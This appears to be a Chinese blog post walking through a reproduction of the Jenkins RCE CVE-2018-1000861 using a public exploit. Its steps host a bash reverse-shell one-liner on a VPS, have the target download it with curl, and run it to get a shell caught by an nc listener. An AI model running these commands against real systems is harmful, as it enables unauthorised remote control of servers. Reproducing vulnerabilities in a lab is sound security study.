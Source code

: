 ```yaml
---
title: "记一次CVE-2018-1000861复现利用"
date: 2020-08-14 22:00:50
tags:
---
```

# 0x00 漏洞复现利用

此漏洞没有回显，直接利用orange的exp执行命令反弹shell

`https://github.com/orangetw/awesome-jenkins-rce-2019`

## step.1 在vps上使用Python启动一个临时web服务器
```
python -m SimpleHTTPServer
```
启动成功如下图所示：
![webServer_start](/assets/CVE-2018-1000861/webServer_start.png)

## step.2 在上面的web服务器内写入txt文本(要在启动web服务器的相同目录内)内容为：
```
bash -i >& /dev/tcp/{webServer_ip}/6666 0>&1
```
![write_bash](/assets/CVE-2018-1000861/write_bash.png)

## step.3 使用下载好的exp.py执行以下命令，下载step2在web服务器中写入的txt文件
```
python2 exp.py http://{靶机ip}:8080/ "curl -o /tmp/6666.sh http://{webServer_ip}:8000/007.txt"
```
![download](/assets/CVE-2018-1000861/download_txt.png)

## step.4 在Web服务器上再额外监听step2中写入的端口
```
nc -lvvp 6666
```
![nc](/assets/CVE-2018-1000861/nc.png)

## step.5 直接bash执行刚刚下载好的脚本
```
python2 exp.py http://{靶机ip}:8080/ "bash /tmp/6666.sh"
```
![exe_bash](/assets/CVE-2018-1000861/exe_bash.png)
## step.6 bingo~getshell~
![webshell](/assets/CVE-2018-1000861/webshell.png)